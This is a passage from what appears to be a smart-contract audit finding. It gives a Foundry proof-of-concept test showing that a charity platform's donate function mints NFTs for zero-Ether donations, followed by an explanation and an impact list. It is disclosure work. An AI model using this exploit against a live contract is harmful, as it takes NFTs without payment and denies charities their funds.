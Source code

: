 ```solidity
        vm.prank(admin);
        registryContract.verifyCharity(charity);
    }

    function testMintNFTForFree() public {
        // Deploy the mintForFree contract
        MintForFree mintContract = new MintForFree();

        // Start the prank as the mintForFree contract
        vm.startPrank(address(mintContract));

        // Attempt to donate 0 Ether to the charity multiple times
        for (uint256 i = 0; i < 3; i++) {
            charityContract.donate{value: 0}(address(charity));
        }

        // Stop the prank
        vm.stopPrank();

        // Check if multiple tokens were minted
        uint256 attackerTokenBalance = charityContract.balanceOf(address(mintContract));
        // 3 NFTs should have been minted for free
        assertTrue(attackerTokenBalance == 3, "Attacker did not mint 3 tokens as expected");
        // Balance of charity should be 0
        assertEq(charity.balance, 0);
    }
}

contract MintForFree is IERC721Receiver {
    function onERC721Received(
        address operator,
        address from,
        uint256 tokenId,
        bytes calldata data
    ) external override returns (bytes4) {
        return this.onERC721Received.selector;
    }
}
```

**Explanation:**

- The `MintForFree` contract calls `donate` with `msg.value == 0` three times.
- Each call results in minting an NFT to the `MintForFree` contract without any Ether being sent to the charity.
- The test confirms that three NFTs were minted, and the charity's balance remains zero.

## Impact

- **Unauthorized Minting of NFTs:** Users can mint unlimited NFTs without making any donations.
- **Financial Loss for Charities:** Charities do not receive expected funds from supposed donations.
- **Undermines Donation Model:** The fundamental purpose of the platform—to facilitate donations—is compromised.
- **Reputation Damage:** The platform may lose credibility if users exploit this to obtain NFTs without contributing.
